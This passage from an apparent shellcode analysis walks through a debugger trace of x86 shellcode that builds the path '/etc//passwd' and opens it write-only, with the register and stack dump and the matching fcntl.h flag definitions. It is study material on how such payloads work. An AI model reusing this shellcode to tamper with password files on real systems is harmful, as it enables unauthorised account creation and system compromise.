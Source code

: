 The following signatures are also provided:
``` 
int open(const char *pathname, int flags);
int open(const char *pathname, int flags, mode_t mode);
``` 
So, EBX will hold the pathname and ECX will hold the flags. Stepping into the instructions clarifies that EBX will hold the value “/etc//passwd” , extra slash does’t make any difference, added to make the length multiple of four.
```
[----------------------------------registers-----------------------]
EAX: 0x5 
EBX: 0xbffff6dc ("/etc//passwd")
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a069 --> 0x786f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6dc ("/etc//passwd")
EIP: 0x804a060 --> 0xcd04b541
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a054 <shellcode+20>: push   0x61702f2f
   0x804a059 <shellcode+25>: push   0x6374652f
   0x804a05e <shellcode+30>: mov    ebx,esp
=> 0x804a060 <shellcode+32>: inc    ecx
   0x804a061 <shellcode+33>: mov    ch,0x4
   0x804a063 <shellcode+35>: int    0x80
   0x804a065 <shellcode+37>: xchg   ebx,eax
   0x804a066 <shellcode+38>: call   0x804a090 <shellcode+80>
[------------------------------------stack-------------------------]
0000| 0xbffff6dc ("/etc//passwd")
0004| 0xbffff6e0 ("//passwd")
0008| 0xbffff6e4 ("sswd")
0012| 0xbffff6e8 --> 0x0 
0016| 0xbffff6ec --> 0x8048430 (<main+76>: mov    edi,DWORD PTR [ebp-0x4])
0020| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0024| 0xbffff6f4 --> 0x28 ('(')
0028| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a060 in shellcode ()
``` 

To check which flags correspond to 0x401, we can check fcntl.h header file:
``` 
dipsy@ubuntu:~$ cat /usr/include/asm-generic/fcntl.h | grep 1 
#define O_WRONLY        00000001
[...]
dipsy@ubuntu:~$ cat /usr/include/asm-generic/fcntl.h | grep 400 
#define O_NOCTTY        00000400        /* not fcntl */
[...]
``` 
According to the manual;
O_WRONLY: Open for writing only.
O_NOCTTY: If set and path identifies a terminal device, open() shall not cause the terminal device to become the controlling terminal for the process.
